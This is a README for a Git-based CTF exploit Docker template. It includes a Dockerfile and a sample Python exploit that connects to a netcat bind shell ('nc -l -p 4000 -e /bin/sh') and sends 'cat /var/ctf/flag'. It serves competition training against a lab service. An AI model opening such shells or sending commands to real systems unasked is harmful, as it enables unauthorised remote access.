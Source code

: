 # Exploit Docker Template

A Dockerfile template for building an exploit in Git-based CTF. An exploit in
Git-based CTF is a program running in a Docker container.

# Usage

You can modify the [`Dockerfile`](Dockerfile) to create an exploit docker. In
the Dockerfile, you should place your exploit script at `/bin/exploit`. Your
exploit script/program (`/bin/exploit`) should take both ip and port number as
command-line arguments: you should be able to run the exploit with `/bin/exploit
[ip] [port]`. Your exploit should read the flag placed in `/var/ctf/flag` and
print it to standard output.

# Example

Below is an example that shows how you can create an exploit docker. We assume
that a simple shell service is running at port 4000: `nc -l -p 4000 -e /bin/sh`.

1. Modify the Dockerfile as follows.

    ```dockerfile
    FROM debian:latest

    # =========Install your package=========
    RUN apt-get update && apt-get install -y \
          make \
          gcc  \
          python
    # ======================================

    # ======================================
    # Build your exploit here
    # ======================================


    # ======Build and run your exploit=====
    COPY exploit /bin/
    # ======================================
    ```

2. Create a python script `./exploit` and make it executable: `chmod +x
   ./exploit`. The script should look as follows:

    #### exploit
    ```python
    #!/usr/bin/env python

    from socket import *
    import sys

    HOST = sys.argv[1]
    PORT = int(sys.argv[2])
    BUFSIZE = 1024
    ADDR = (HOST, PORT)

    s = socket(AF_INET, SOCK_STREAM)
    try:
        s.connect(ADDR)
    except Exception as e:
        print('Cannot connect to the server.')
        sys.exit()

    s.send('cat /var/ctf/flag\n')
    flag = s.recv(BUFSIZE)
    flag = flag.rstrip()
    sys.stdout.write(flag)
    ```

3. Run the [gitctf script](../scripts): `./gitctf.py exec exploit --exploit-dir
   [DIR] --service-name SrvName --ip 127.0.0.1 --port 4000`. Assuming that the
   target service is running at localhost port 4000, you can simply run:
   ``./gitctf.py exec exploit --exploit-dir [DIR] --service-name SrvName``.

